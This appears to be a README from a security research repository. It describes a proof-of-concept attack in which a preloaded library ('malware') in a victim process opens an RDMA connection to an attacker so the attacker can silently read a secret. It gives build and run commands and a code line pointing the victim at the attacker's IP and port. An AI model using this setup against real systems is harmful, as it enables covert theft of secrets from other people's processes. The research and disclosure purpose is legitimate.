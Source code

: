 # (A6) Facilitating Attacks using RDMA


The attack shows if an attacker has the privilege to preload a library to a victim’s application, the attacker can misuse this
ability to *inject code* that establishes an RDMA connection to the attacker’s application.
The attacker waits for a connection from the victim, and then the attacker silently reads the victim's secret using RDMA reads.


## Requirements
 * GCC >= 4.9 with C++11 features
 * rdma-core library, or equivalent RDMA verbs library 
 * RDMA-capable network devices must have assigned IP addresses
 * ODP-capable RDMA device for ODP usage

## Usage 

To compile the code simply run `make`. 
Note, to run the attack, we require manually edit `victim.cpp` to specify the IP address of the attacker application.

To perform an attack, the attacker should be lunched using `./attacker -a <IP>`, where `<IP>` is the IP address of the attacker.
Then the malware of the victim code should be modified to establish the connection with the provided IP address. 
For that, modify the IP address in `victim.cpp`:
```
  // should be IP and port of the attacker
  ret = rdma_getaddrinfo("192.168.1.10","9999", &hints, &addrinfo);
```
Then the victim can be launched (`./victim`) on any node within the same network as the attacker. The victim application will invite you to type a secret. The secret will be fetched by the attacker using RDMA reads. Note, that the malware uses predictability of malloc (V4).


Basic usage example
```
make
./attacker -a 192.168.1.10
./victim
```

## On-demand paging 
To use ODP capabilities, we require to manually modify the preload malware of the victim. 
For that, you should modify the following lines of `victim.cpp`:
```
 // change to true to use implicit ODP.
  bool useodp = false;
```